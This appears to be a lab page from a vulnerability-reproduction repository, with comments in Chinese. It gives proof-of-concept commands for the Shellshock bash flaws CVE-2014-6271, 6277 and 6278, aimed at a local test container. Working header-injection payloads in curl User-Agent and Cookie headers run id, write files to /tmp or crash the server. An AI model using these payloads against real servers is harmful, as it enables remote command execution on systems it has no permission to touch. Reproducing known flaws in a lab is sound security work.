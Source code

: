 ### CVE-2014-6271

```bash
# 以下 POC 代码执行完毕之后会在容器环境中创建文件 /tmp/poc ，且文件内容是 CVE-2014-6271 vulnerable
curl -H "User-Agent: () { :; }; echo \"Content-Type: text/plain\"; echo \"CVE-2014-6271 vulnerable\" > /tmp/poc" http://127.0.0.1/victim.cgi
```

![](attach/img/poc-CVE-2014-6271.png)

![](attach/img/poc-result-CVE-2014-6271.png)

### CVE-2014-6277

```bash
# 容器本地测试 PoC
env X='() { x() { _; }; x() { _; } <<a; }' /usr/local/bash-4.3.0/bin/bash -c :

# 以下 PoC 会导致 HTTP服务器 500错误
curl -H "User-Agent: () { x() { _; }; x() { _; } <<a; }" http://127.0.0.1/victim.cgi

# 已打补丁的CGI访问是正常的 200 HTTP响应码
curl -H "User-Agent: () { x() { _; }; x() { _; } <<a; }" http://127.0.0.1/safe.cgi
```

### CVE-2014-6278

```bash
# 容器本地测试 PoC
env X='() { _; } >_[$($())] { echo CVE-2014-6278 vulnerable; id; }' /usr/local/bash-4.3.0/bin/bash -c :

# 远程测试 PoC-1.0
curl -H "User-Agent: () { _; } >_[\$(\$())] { id > /tmp/CVE-2014-6278.txt; }" http://127.0.0.1/victim.cgi

# 远程测试 PoC-1.1
curl -H "Cookie: () { _; } >_[\$(\$())] { id > /tmp/CVE-2014-6278.txt; }" http://127.0.0.1/victim.cgi

# 远程测试 PoC-2
time curl -H "User-Agent: () { _; } >_[\$(\$())] { sleep 5; }" http://127.0.0.1/victim.cgi
```
